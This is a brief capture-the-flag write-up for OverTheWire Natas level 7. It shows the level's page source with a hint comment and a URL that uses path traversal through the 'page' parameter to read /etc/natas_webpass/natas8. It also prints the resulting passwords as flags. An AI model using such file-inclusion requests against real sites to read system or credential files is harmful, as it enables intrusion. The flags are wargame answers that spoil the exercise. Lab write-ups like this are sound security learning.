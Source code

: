 # Natas Level 6 → Level 7 File inclusion Vulnerability from path traversal

## Previous Flag
<b>bmg8SvU1LizuWjx3y7xkNERkHxGre0GS</b>

## Goal
Username: natas7<br>
URL: http://natas7.natas.labs.overthewire.org<br>

## What I learned
```
Nothing
```

## Solution
```
F12 → Elements

<body>
<h1>natas7</h1>
<div id="content">

<a href="index.php?page=home">Home</a>
<a href="index.php?page=about">About</a>
<br>
<br>
this is the front page

<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 --> 👀
</div>

<div id="wechallform" class="ui-draggable" style="display: block;"><p>Submit token</p><form id="realwechallform" action="https://www.wechall.net/10-levels-on-Natas.html" enctype="application/x-www-form-urlencoded" method="post"><input type="hidden" name="wfid" value="8"><input type="hidden" name="password_solution" value="bmg8SvU1LizuWjx3y7xkNERkHxGre0GS"><input type="hidden" name="igotitnow" value="Register"></form></div></body>

http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q 🔐
```

## Flag
<b>xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q</b>

## Continue
[Continue](/overthewire/Natas0708.md)